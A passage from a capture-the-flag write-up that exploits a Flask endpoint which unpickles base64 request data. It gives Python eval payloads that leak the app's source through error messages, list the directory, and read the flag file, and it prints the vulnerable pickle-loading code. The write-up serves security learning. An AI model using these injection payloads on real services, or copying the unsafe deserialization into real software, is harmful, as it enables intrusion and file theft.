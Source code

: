 I wanted to read the source code, so I tried to do that with the inner_payload set to `"eval(open(__file__,'r').read())"`. This will read the file and evaluate the content. We use a second `eval` to raise an error so we can get the content. Normally we could have used `raise Exception(...)`, but the white space is restricted.

However, this only gave us only the first line: `'from flask import Flask, render_template, url_for, request, redirect`. That's because the code is executed line by line and having an error from the first one we can't see the second one.

We can pass that with `"eval(open(__file__,'r').read().replace('\\n','~'))"`. This will read the file, replace all new lines with `~` and evaluate the resulted string. Notice the double slash in `\\n`, we need to escape that in order to have a valid payload.

The source code after replacing `~` with new line:

```python
import cPickle
import base64
import subprocess
import re
import string

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
  return "APIv2 @ 2020 - You think you got methods for this?"

@app.route("/", methods=["POST"])
def newpost():
  picklestr = base64.urlsafe_b64decode(request.data)
  if " " in picklestr: 
    return "The \' \' is blacklisted!"
  postObj = cPickle.loads(picklestr)
  return ""


if __name__ == "__main__":
    app.run(host = "0.0.0.0", debug=True)
'))
```

The flag is not here. Let's list the files in the application's directory. We can do that with `"eval('~'.join(__import__('os').listdir('.')))"`. This gives us `SyntaxError: ('invalid syntax', ('&lt;string&gt;', 1, 1, '.profile~.bashrc~.bash_logout~flag~app.py'))`. Reading the `flag` file actually gives us the flag.

Final inner payload: `"eval(open('flag','r').read())"`

![image](https://user-images.githubusercontent.com/38787278/96352571-bd494300-10cc-11eb-9d5a-dc305f73db00.png)

Flag: ctf{f94f7baf771dd04b5a9de97bceba8fc120395c04f10a26b90a4c35c96d48b0bb}

# <a name="reverse"></a> Reverse
